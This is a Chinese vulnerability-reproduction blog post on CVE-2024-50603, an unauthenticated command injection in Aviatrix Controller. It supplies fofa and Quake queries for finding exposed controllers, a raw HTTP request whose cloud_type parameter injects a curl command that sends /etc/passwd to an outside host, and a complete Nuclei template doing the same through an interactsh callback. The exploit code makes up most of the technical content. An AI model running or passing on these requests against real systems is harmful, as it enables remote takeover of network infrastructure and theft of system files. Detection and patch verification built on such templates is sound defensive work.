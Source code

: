 #  【漏洞复现】CVE-2024-50603   
混子Hacker  混子Hacker   2025-01-12 12:54  
  
<table><tbody><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><td data-colwidth="576" width="576" valign="top" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><section style="margin-bottom: 0px;color: rgb(255, 255, 255);letter-spacing: 0.578px;text-align: center;-webkit-tap-highlight-color: transparent;outline: 0px;border-top-color: rgb(255, 255, 255);visibility: visible;"><strong style="font-family: inherit;font-size: 1em;letter-spacing: 0.578px;text-decoration: inherit;-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;color: rgb(217, 33, 66);visibility: visible;"><span leaf="">免责声明</span></span></strong></section><section style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;">请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。</span></section></td></tr></tbody></table>  
  
  
[   
漏洞简介   
]  
  
——    
越努力越幸运 ——  
  
CVE-2024-50603  
  
Aviatrix Controller受影响版本中，由于对 /v1/api 下 list_flightpath_destination_instances 操作中的 cloud_type 参数或 flightpath_connection_test 操作中的 src_cloud_type 参数缺乏适当的输入清理，可能导致命令注入漏洞，未经身份验证的远程攻击者可以构造恶意请求，利用该漏洞执行任意命令。  
  
  
  
<table><tbody><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;visibility: visible;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: windowtext;visibility: visible;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,{&#34;tagName&#34;:&#34;section&#34;,&#34;attributes&#34;:{&#34;style&#34;:&#34;text-align: center;&#34;},&#34;namespaceURI&#34;:&#34;&#34;}]" style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;">影响范围</span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;font-size: 14px;visibility: visible;"><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-family: &#34;Microsoft YaHei UI&#34;;visibility: visible;"><span leaf=""><br/></span></span></strong></span></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: windowtext;visibility: visible;"><p><span leaf=""><span textstyle="" style="font-size: 14px;">Aviatrix Controller &lt; 7.1.4191</span></span></p><p><span leaf=""><span textstyle="" style="font-size: 14px;">Aviatrix Controller 7.2.x &lt; 7.2.4996</span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">漏洞评分</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">10.0</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(255, 0, 0);"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;"></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td rowspan="3" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">利用条件</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">用户认证</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">无</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(0, 0, 0);"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><br/></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;"></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">利用难度</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">低</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(0, 0, 0);"><span leaf=""><br/></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><section style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">所需权限</span></span></section></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><section style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;">无</span></section></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">解决方案</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">升级版本</span></span></p></td></tr></tbody></table>  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuxht9gv4JmoDHibMzzF0nghoWibY0b83xADoDOEZLWxcPWXtHegkUOuyGxkRZXH6G4icM5vIWwc43gg/640?wx_fmt=png&from=appmsg "")  
  
  
  
漏洞信息  
  
  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
  
```
fofa: app="aVIaTrIX-Controller"
Quake：app:"Aviatrix Controller"

# 风里雨里，我都在quake等你。个人中心输入邀请码“lnBNF0”你我均可获得5,000长效积分哦，地址 quake.360.net
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuxht9gv4JmoDHibMzzF0nghutEF95xrYSBia5xQDuc3wPNqKS5BPX2l3sic4bicHU4NM8FOSD0rusbeA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuxht9gv4JmoDHibMzzF0nghKicOianTB1r3BPwDWhfjylnqnXiacfHKjlHBrDUsyO4XaibxZXmQia62cqA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
  
```
POST /v1/api HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (CentOS; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Connection: close
Content-Length: 193
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

action=list_flightpath_destination_instances&CID=anything_goes_here&account_name=1&region=1&vpc_id_name=1&cloud_type=1|$(curl+-X+POST+-d+@/etc/passwd+http://dnglog)
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuxht9gv4JmoDHibMzzF0nghmu5icE57gY3cxz3KLMSwoeHbYcacWGtFVcWaRWMGQpWma8sDt0GgJhw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuxht9gv4JmoDHibMzzF0nghpwKhvaxBFhtiamUEniav6mkCB7Pb5vY7ibs043saTlnxbMouDLPmbKXNw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: CVE-2024-50603
info:
  name: Aviatrix Controller RCE
  author: newlinesec,securing.pl
  severity: critical
  description: |
    An issue was discovered in Aviatrix Controller before 7.1.4191 and 7.2.x before 7.2.4996. Due to the improper neutralization of special elements used in an OS command, an unauthenticated attacker is able to execute arbitrary code. Shell metacharacters can be sent to /v1/api in cloud_type for list_flightpath_destination_instances, or src_cloud_type for flightpath_connection_test.
  reference:
    - https://www.securing.pl/en/cve-2024-50603-aviatrix-network-controller-command-injection-vulnerability/
    - https://nvd.nist.gov/vuln/detail/CVE-2024-50603
    - https://docs.aviatrix.com/documentation/latest/network-security/index.html
    - https://docs.aviatrix.com/documentation/latest/release-notices/psirt-advisories/psirt-advisories.html?expand=true#remote-code-execution-vulnerability-in-aviatrix-controllers
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10.0
    cve-id: CVE-2024-50603
    cwe-id: CWE-78
  metadata:
    vendor: aviatrix
    product: controller
    zoomeye-query: app="Aviatrix Controller"
  tags: cve,cve2024,aviatrix,controller,rce,oast

variables:
  oast: "{{interactsh-url}}"

http:
  - raw:
      - |
        POST /v1/api HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        action=list_flightpath_destination_instances&CID=anything_goes_here&account_name=1&region=1&vpc_id_name=1&cloud_type=1|$(curl+-X+POST+-d+@/etc/passwd+{{oast}})

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        name: http
        words:
          - "http"

      - type: status
        status:
          - 200

      - type: regex
        part: interactsh_request
        regex:
          - 'root:.*:0:0:'
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuxht9gv4JmoDHibMzzF0nghOlx3Y3MYoLW3ucWvQIgLFqzuM3EypDa9J1wM7giaqvEiaCMZdYJ45hcg/640?wx_fmt=png&from=appmsg "")  
  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  
  
  
